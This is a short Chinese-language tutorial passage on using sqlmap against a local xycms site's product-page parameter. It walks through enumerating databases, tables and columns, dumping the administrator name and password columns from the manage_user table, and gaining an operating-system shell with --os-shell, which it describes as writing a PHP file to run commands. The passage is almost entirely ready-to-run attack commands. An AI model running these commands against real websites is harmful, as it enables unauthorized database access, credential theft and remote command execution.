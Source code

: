 （如果是数据库管理员，则可以跳过查看数据库内容——因为知道数据库名是为了看表，现在就可以直接看所有表名，不过查询内容会较多）

查看一下所有的数据库

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --dbs

--dbs
#查看一下所有的数据库
```

查看当前所用的数据库

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --current-db

--current-db
#查看当前所用的数据库
```

列出当前数据库的表名

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --tables -D xycms

-D xycms
#指定数据库名为xycms
--tables
#列出当前数据库的表名
```

查看表的列名

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --columns -T manage_user -D xycms

-T manage_user
#指定表名manage_user
--columns
#查看表的列名
```

查看字段

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --dump -C m_name,m_pwd -T  manage_user -D xycms

-C m_name,m_pwd
#指定列名m_name和m_pwd
--dump
#查看字段
```

执行系统命令

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --os-shell

--os-shell
#执行系统命令——自己探测其根目录地址，写入一个php文件，然后让php文件帮我们执行某些命令——可能失败
```
